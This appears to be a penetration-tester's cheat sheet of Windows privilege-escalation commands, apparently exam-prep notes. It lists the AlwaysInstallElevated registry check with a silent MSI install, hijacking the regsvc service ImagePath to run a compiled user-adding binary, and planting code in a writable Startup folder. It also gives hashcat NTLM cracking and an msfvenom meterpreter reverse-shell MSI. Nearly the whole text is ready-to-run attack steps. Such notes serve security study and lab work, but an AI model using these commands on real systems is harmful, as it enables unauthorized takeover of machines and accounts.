

-gobuster dir -u http://<ip>:80 -w <wordlist>  
 
-accesschk64.exe -wvu "<file location>"  
Registry PrivEsc-AlwaysInstallElevated  
reg query HKLM\Software\Policies\Microsoft\Windows\Installer  
reg query HKCU\Software\Policies\Microsoft\Windows\Installer  
msiexec /quiet /qn /i <msi location>
Get-Acl-Path hklm\System\CurrentControlSet\Services\regsvc | fl ~ (NT Authority\Interactive means user has "FullControl" over key)
reg add hklm\System\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d <malicious_filename> /f  
sc start regsvc
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

-hashcat -m 1000 <hash> <wordlist>

msfvenom -p windows/meterpreter/reverse_tcp lhost=<ip> lport=<port> -f msi -o <filename>.msi
 
x86_64-w64-mingw32-gcc <filename>.c -o <filename>.exe
 
 #### Service Escalation through the registry
Get-Acl-Path hklm\System\CurrentControlSet\Services\regsvc | fl ~ (NT Authority\Interactive means user has "FullControl" over key)  
Download useradd.c to kali then compile - [https://github.com/codingo/OSCP-2/blob/master/Windows/useradd.c](https://github.com/codingo/OSCP-2/blob/master/Windows/useradd.c)  
x86_64-w64-mingw32-gcc useradd.c -o mycode.exe  
reg add hklm\System\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\mycode.exe /f  
sc start regsvc

#### Startup Applications
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" ~ (BUILTIN\Users '(F)' means user has full access)
Place shell or code in this folder, when user logs in, code execution
